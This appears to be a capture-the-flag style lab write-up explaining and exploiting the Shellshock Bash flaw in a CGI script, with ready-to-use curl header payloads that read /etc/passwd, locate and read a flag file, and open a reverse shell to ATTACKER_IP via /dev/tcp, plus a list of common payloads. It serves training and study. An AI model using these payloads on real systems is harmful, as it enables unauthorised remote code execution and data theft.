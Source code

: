 # 🐚 CGI Shellshock Attacks (CVE-2014-6271)

> **🎯 Objective:** Exploit Shellshock vulnerability in CGI applications via HTTP headers to achieve remote code execution.

## Overview

**Shellshock (CVE-2014-6271)** affects GNU Bash up to version 4.3, allowing command execution through environment variables in CGI applications. Vulnerability lies in Bash's improper handling of function definitions in environment variables.

---

## HTB Academy Lab Solution

### Lab: Shellshock Exploitation
**Question:** "Enumerate the host, exploit the Shellshock vulnerability, and submit the contents of the flag.txt file located on the server."

#### Step 1: CGI Script Discovery
```bash
# Enumerate CGI scripts
gobuster dir -u http://TARGET/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi

# Expected finding: access.cgi
# URL: http://TARGET/cgi-bin/access.cgi
```

#### Step 2: Vulnerability Confirmation
```bash
# Test Shellshock via User-Agent header
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://TARGET/cgi-bin/access.cgi

# If vulnerable: /etc/passwd contents returned
```

#### Step 3: Command Execution
```bash
# File system exploration
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/ls -la /' http://TARGET/cgi-bin/access.cgi

# Find flag.txt location
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/find / -name "flag.txt" 2>/dev/null' http://TARGET/cgi-bin/access.cgi

# Read flag content
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /path/to/flag.txt' http://TARGET/cgi-bin/access.cgi
```

#### Step 4: Reverse Shell (Alternative)
```bash
# Setup listener
nc -lvnp 7777

# Trigger reverse shell
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/ATTACKER_IP/7777 0>&1' http://TARGET/cgi-bin/access.cgi
```

**Answer:** `[FLAG_CONTENT]` *(extract from flag.txt)*

---

## Technical Details

### Vulnerability Mechanism
```bash
# Vulnerable Bash function parsing
env y='() { :;}; echo vulnerable-shellshock' bash -c "echo not vulnerable"

# Result on vulnerable system: 
# vulnerable-shellshock
# not vulnerable
```

### CGI Attack Vector
- **Environment variables** processed by CGI
- **HTTP headers** become environment variables
- **User-Agent**, **Referer**, **Cookie** headers exploitable
- **Function definition** `() { :; };` followed by malicious commands

### Common Payloads
```bash
# Command execution header
User-Agent: () { :; }; echo ; echo ; /bin/COMMAND

# File reading
User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd

# Reverse shell
User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/IP/PORT 0>&1
```

---

## Attack Summary

**Prerequisites:**
- **CGI application** using Bash
- **Vulnerable Bash version** (< 4.3 unpatched)
- **HTTP access** to CGI scripts

**Impact:**
- **Remote code execution** as web server user
- **File system access** for data exfiltration
- **Reverse shell** for interactive access
- **Potential privilege escalation** vector

**💡 Pro Tip:** Shellshock is common in legacy systems and IoT devices - always test CGI endpoints with environment variable injection when discovered during enumeration. 